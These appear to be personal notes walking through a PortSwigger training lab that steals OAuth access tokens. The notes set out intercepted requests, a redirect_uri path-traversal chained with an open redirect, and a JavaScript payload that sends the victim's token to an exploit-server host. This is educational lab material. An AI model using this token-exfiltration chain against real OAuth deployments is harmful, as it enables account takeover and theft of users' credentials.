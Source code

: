 # Stealing OAuth access tokens via an open redirect

## This lab uses an [OAuth](https://portswigger.net/web-security/oauth) service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

## To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

#### Note

##### You cannot access the admin's API key by simply logging in to their account on the client application.

## The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

## You can log in via your own social media account using the following credentials: `wiener:peter`.

step 1

![[lab4_http_history_redirect_uri.png]]


step 2

logout and login again and see HTTP history

![[lab4_http_history_redirect_uri_access_token.png]]



step 3
send step 2 to repeater
change uri with google.com

![[lab4_change_uri_bad_request.png]]


step 4
in uri section test with /../post?/postId=8
it give 302 response
![[lab4_uri_test_post_id.png]]

step 5
Note in this lab if you logout and login again you don't need to enter user-id and password
it will automatically login

now logout and click on my account and intercept process until you reach at redirect_uri
![[lab4_social_login_uri.png]]




step 6

add /../
```javascript
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post?postId=8&response_type=token&nonce=-2006832369&scope=openid%20profile%20email HTTP/2
```

![[lab4_intercept_uri.png]]


you will redirect to post 8

![[lab4_after_forward_access_token_with_postid.png]]

this is complete url
```http
https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/post?postId=8#access_token=pDuxx3Zrg65Yue-6vKm6ShYqwSSLiVdm-_1Y7ZnTnH-&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

step 7

in the post in the bottom section there is next button

![[lab4_next_post_link_at_bottom_of_post.png]]

click on next

it will redirect to next post
earlier it was 8 not it is 9
![[lab4_post_id_9.png]]


step 8

go to HTTP history again find next url

![[lab4_next_path_url_302__found.png]]


step 8
send step 7 to repeater and path= https://google.com
```
GET /post/next?path=https://google.com HTTP/2
```
you will get 302 response

![[lab4_change_next_path_url_add_google_url.png]]



step 9
now click on my account
intercept request keep forward until you reach redirect_uri
```
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback&response_type=token&nonce=794310292&scope=openid%20profile%20email HTTP/2
```

change to 

```javascript
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post/next?path=https://google.com&response_type=token&nonce=794310292&scope=openid%20profile%20email HTTP/2
```

![[lab4_redirect_google_with_access_token.png]]


step 10

now exploit it
add payload to exploit
```javascript
<script> 
window.location = '/?'+document.location.hash.substr(1) 
</script>
```

![[lab4_add_first_payload.png]]
and in uri section add `/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit`

```
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/..&response_type=token&nonce=599160809&scope=openid%20profile%20email
```

change to

```javascript
GET /auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit&response_type=token&nonce=599160809&scope=openid%20profile%20email
```

![[lab4_forward_path_id_uri_intercept.png]]


it will redirect to exploit url

![[lab4_access_token_exploit_web_page.png]]

copy url from browser for access_token
```
https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/?access_token=M12aNQq8S1W7vYy5iibr7qzN4LfbBhAyIdvZ41tG9m_&expires_in=3600&token_type=Bearer&scope=openid%20profile%20email
```

or
click on access log for token

![[lab4_access_log_access+token.png]]


```
access_token=M12aNQq8S1W7vYy5iibr7qzN4LfbBhAyIdvZ41tG9m_
```

step 11
go to HTTP history click on me you will see api-key of user
 
![[lab4_http_history_me_request.png]]


now send to the repeater use token key `M12aNQq8S1W7vYy5iibr7qzN4LfbBhAyIdvZ41tG9m_` from step 10

![[lab4_change_token_to_get_user_api_key.png]]


step 12

payload HInt
### Hint:
```javascript
<script> 
if (!document.location.hash) { 
window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email' 
} else { 
window.location = '/?'+document.location.hash.substr(1) 
} 
</script>
```

change with your credential
```
outhid: oauth-0a29002603866278807a2f7b02c70094.oauth-server.net
labid: 0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net
exploitid: exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit/
```

final payload
```javascript
<script> 
if (!document.location.hash) { 
window.location = 'https://oauth-0a29002603866278807a2f7b02c70094.oauth-server.net/auth?client_id=osyrq3sa4s28ka19xiyiz&redirect_uri=https://0a8a00d9039c628e80a2315a00d200c8.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email' 
} else { 
window.location = '/?'+document.location.hash.substr(1) 
} 
</script>
```


![[lab4_add_payload_exploit.png]]

step 13
go to my account intercept again till uri

add and forward request
```
/../post/next?path=https://exploit-0a7e00fc032862b880fc303d0192000d.exploit-server.net/exploit
```


![[lab4_test_post_id_path_redirect_uri.png]]


you will redirect to exploit page go to access log see if any different ip which contain access token

![[lab4_access_token_with_different_api_key.png]]

copy token and paste to repeater at /me in authorization  section

![[lab4_admin_api_key.png]]


```json
{
"sub":"administrator",
"apikey":"8D2JdRgR7VEp54s32CHR60k1Z3VK5IYy",
"name":"Administrator",
"email":"administrator@normal-user.net",
"email_verified":true
}
```

step 14
submit api-key to solve lab

![[portswigger_wsa/P03_advanced_topics/P22_OAuth_authentication/images/lab4_lab_solved.png]]